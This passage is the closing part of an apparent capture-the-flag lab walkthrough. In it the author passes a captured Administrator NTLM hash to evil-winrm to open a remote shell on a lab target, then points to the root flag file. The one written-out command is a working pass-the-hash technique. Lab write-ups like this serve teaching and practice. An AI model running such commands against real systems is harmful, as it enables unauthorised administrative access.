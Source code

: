 Using the **Administrator's** NTLM hash, we will take a shell on the target using `evil-winrm`.

```shell
evil-winrm -i 10.129.59.175 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

> Root flag is found at: `C:\Users\Administrator\Desktop\root.txt`
{: .prompt-info}

This concludes the walkthrough!  
Happy hacking!
